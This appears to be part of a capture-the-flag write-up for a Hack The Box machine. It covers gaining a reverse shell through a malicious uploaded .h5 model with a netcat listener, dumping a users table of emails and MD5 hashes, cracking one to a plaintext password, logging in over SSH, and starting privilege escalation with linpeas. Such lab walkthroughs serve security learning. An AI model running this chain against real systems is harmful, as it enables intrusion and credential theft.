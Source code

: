 I connect to it:
`docker run --rm -it -v "$(pwd)":/output my-tf-image`

After running Python, I start a web server on the Docker container to retrieve exploit.h5:
`python3 -m http.server`

Then on my machine:
`wget http://172.17.0.2:8000/exploit.h5`

Finally, I prepare the listener:
`nc -lv 1223`

I create an account on the platform to publish the model, and by clicking “View Prediction” the shell is active.

While browsing with my reverse-shell, I find a database in the instance: `users.db` containing this information:

```
$ sqlite3 users.db
.tables
model  user 
select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|hello|hello@hello.com|5d41402abc4b2a76b9719d911017c592
7|afsh4ck|afsh4ck@test.es|cfcdcac9d35d8bce69817867fc216ea2
8|demo|demo@htb.com|5f4dcc3b5aa765d61d8327deb882cf99
9|v3x|vex@gmail.com|6ebd4b217b05f7722854816e42c0ff13
10|admin|test@test.com|098f6bcd4621d373cade4e832627b4f6
11|user|user@user.com|88b87698be0bc461f3cacf1f080929d5
12|pino|pino@pino.it|3080d0cf183721b6c35affb8e3bf8f15
13|Zeroz|lol@pawned.com|098f6bcd4621d373cade4e832627b4f6
14|ola|ola@ola.com|2fe04e524ba40505a82e03a2819429cc
15|marvin|marvin@123|202cb962ac59075b964b07152d234b70
```

By sending Gael’s hash to Crackstation, I find the password: `mattp005numbertwo`

I can then connect via SSH:
`ssh gael@<ip htb>`

And obtain the user flag in user.txt:
`29cf0fba3c5d4bb974260a210b744c3b`

---

## Privilege Escalation to Root:

By uploading linpeas.sh (`scp linpeas.sh gael@10.10.11.74:/tmp`)

I find an interesting file I can recover: `/var/backups/backrest_backup.tar.gz`
